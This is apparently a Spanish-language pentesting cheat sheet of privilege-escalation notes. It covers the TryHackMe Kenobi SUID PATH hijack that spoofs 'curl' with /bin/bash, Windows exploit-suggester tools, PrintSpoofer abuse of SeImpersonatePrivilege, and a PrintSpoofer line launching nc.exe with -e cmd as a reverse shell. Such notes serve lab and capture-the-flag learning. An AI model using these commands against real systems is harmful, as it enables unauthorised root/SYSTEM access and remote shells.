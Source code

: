 La maquina KENOBI de TryHackme plantea una escalada de privilegios sobre un programa menu el cual ejecuta un "curl -I localhost"
lo encontramos gracias al programa find el cual busca los archivos con privilegio de root y no muestra el error en la busqueda
find / -perm -u=s -type f 2>/dev/null     
find / -perm -4000 -user root -type f -print >>suid.txt

si ejecutamos
echo /bin/bash > curl    
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu      //donde se ejecuta el programa
pisamos el comando curl del menu por lo que el menu ahora ejecutará /bin/bash en modo root

WINDOWS

## Windows Exploit Suggester /wesng (es necesario saber systeminfo en la maquina)
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
python3 windows-exploit-suggester.py --update
python3 windows-exploit-suggester.py --database <fecha>-mssb.xls --systeminfo systeminfo.txt

## WESNG
git clone https://github.com/bitsadmin/wesng (es necesario saber systeminfo en la maquina)
python3 wes.py --update
python3 wes.py systeminfo.txt -i "Elevation of Privilege" || ej busq de elevacion.

##Vector acceso en un windows y whoami /priv muestra habilitado SeImpersonatePrivilege
descargar https://github.com/itm4n/PrintSpoofer/releases
$PrintSpoofer.exe -i -c cmd / o tambien PrintSpoofer.exe -c "c:\Temp\nc.exe ip pto -e cmd"  


##Binarios en windows CVE "microsoft"
github.com/WindowsExploits/Exploits


https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1
Busca parches de seguridad y malas configuraciones de aplicaciones y servicios - tiene q ser ejecutado localmente.


##Vector Windows usuario con priv seimpersonateprivilege
whoami /priv
seimpersonateprivilege Enable
descargar binario https://github.com/itm4n/PrintSpoofer/releases
luego pasarlo a la maquina victima
>.\PrintSpoofer64.exe -i -c cmd.exe
system>



## Shells interactivas
python -c 'import pty; pty.spawn("/bin/bash")'   // python3 -c 'import pty;pty.spawn("/bin/bash")' 

Para usar el "clear" si no funciona
export TERM=screen-256color
Para usar el control+C 
echo $TERM
stty raw -echo
fg 
export TERM=screen
